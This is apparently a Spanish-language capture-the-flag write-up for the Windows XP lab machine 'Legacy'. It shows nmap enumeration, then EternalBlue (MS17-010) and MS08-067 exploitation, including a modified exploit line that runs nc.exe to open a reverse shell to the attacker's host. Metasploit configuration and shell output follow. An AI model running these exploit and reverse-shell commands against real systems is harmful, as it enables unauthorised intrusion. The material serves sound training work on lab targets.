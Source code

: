 # Legacy

• SMB Enumeration
• Eternalblue Exploitation (MS17-010) [Triple Z Exploit]
• SMB Enumeration
• Eternalblue Exploitation (MS17-010) [Triple Z Exploit]


## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allports
```

```shell
PORT      STATE    SERVICE      REASON
135/tcp   open     msrpc        syn-ack ttl 127
139/tcp   open     netbios-ssn  syn-ack ttl 127
445/tcp   open     microsoft-ds syn-ack ttl 127

```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p135,139,445 10.10.11.4 -oN targeted
```
vemos como el sistema que nos enfretamos es un windows antiguo por ello vamos a realizar un escaneo aún más concreto buscando las vuulnerabilidades más básicas de windows antiguos como es Eternal blue.

```shell
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
```
Con el siguiente comando hacemos el escaneo :

```shell
nmap -sV -p 135,139,445 --script "smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln-ms08-067,smb-vuln-ms17-010,smb-security-mode" 10.10.10.4
```
vemos que la máquina es vulnerable y de varias maneras , voy a explotarlas las dos:

la primera que nos encontramos es :
```shell
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
```

Y la segunda vulnerabilidad importante que encontramos es :

```shell
smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
```

## Explotacion CVE-2017-0143

- Qué es: vulnerabilidad de ejecución remota en el servidor SMBv1 de Windows; permite que un atacante envíe paquetes especialmente construidos y ejecute código arbitrario en el equipo objetivo. 

- Sistemas afectados: varias versiones de Windows que soportaban SMBv1 (Windows 7/Server 2008/2012, Windows 8.1, Windows 10, etc.); fue corregida en el boletín MS17-010 publicado el 14 de marzo de 2017. 


- Impacto / contexto histórico: la explotación pública (EternalBlue) filtrada por los Shadow Brokers fue usada por el ransomware WannaCry y otros ataques que causaron infecciones masivas. Esto lo convirtió en un vector crítico de propagación lateral.




Usando el siguiente repositorio:
```shell
https://github.com/worawit/MS17-010
```

Podemos ejecutar el `Eternal blue` para ello modificamos el fichero `zzz_exploit.py` y en ese fichero modificamos la siguiente linea para entablarnos una una shell 

```shell
service_exec (conn,'cmd /c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 443' )
```
Para obtener `nc.exe` se encuentra en el repositorio de las SecList en `/Web-Shells/FuzzDB/nc.ex`

Por otro lado tenemos que compartir el recurso y luego que se sincronice con el directorio actual de trabajo $(pwd)
```shell
smbserver.py smbFolder $(pwd)  
```

Por último por otro lado nos ponemos en escucha por el puerto 443 con `nc` de la siguiente manera para tener una consola interactiva:

```shell
rlwrap nc -nlvp 443
```

Finalmente ejecutamos el código:
```shell
python2 zzz.exploit.py 10.10.10.4 browser
```

Para obtener las flags lo explico en explotando la siguiente vulnerabilidad.


## Explotación CVE-2008-4250

- Vulnerabilidad crítica en el servicio Server de Windows que permitía, mediante un paquete RPC mal formado, provocar un desbordamiento y ejecutar código remoto sin autenticación.

- Afectaba Windows 2000 / XP / Server 2003 (y similares); permitió que gusanos como Conficker se propagaran masivamente.

Para explotarlo de esta manera lo mas fácil es buscar algún exploit existente que nos permita hacerlo, para ellos utilizamos el siguiente comando:

```shell
searchsploit ms08-067
```
y obtenemos los siguientes resultados en lso que existen varios:

```shell
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)        | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS08-067)                         | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-067)                   | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack Corruption (MS08-067) | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Execution (MS08-067)               | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)               | windows/remote/7132.py
```

En mi caso para probar una alternativa más automatizada he usado `metasploit` esta herramienta vamos poder utilizar los exploit más rápido.

- Cargamos metasploit

```shell
msfconsole
```

Buscamos si existe un POC con la vulnerabilidad
```shell
msf > search ms08-067
```
Encontramos que existe uno por lo tanto vamos a configurarlo y usarlo

```shell
use exploit/windows/smb/ms08_067_netapi
```

Para la configuración utilizamos los siguientes comandos 
```shell
set RHOSTS 10.10.10.4
set LHOST Ip
set PAYLOAD windows/meterpreter/reverse_tcp
check
```
Checkeamos que es vulnerable y vamos a poder entablar la revershell

```shell
[+] 10.10.10.4:445 - The target is vulnerable.
```

Ejecutamos el exploit

```shell
run
```

Obtenemos que la shell se ha podido hacer: 
```shell
[*] Started reverse TCP handler on 10.10.14.9:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.21/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (240 bytes) to 10.10.10.4
[*] Command shell session 1 opened (10.10.14.9:4444 -> 10.10.10.4:1032) at 2025-10-10 04:42:42 -0400
Shell Banner:
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

Buscamos las flags como en el caso anterior con los siguientes comandos.

```shell
dir C:\user.txt /s /b
dir C:\root.txt /s /b
```

```shell
C:\Documents and Settings\john\Desktop\user.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```
Por último las previsualizamos con el comando `type`

```shell
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```
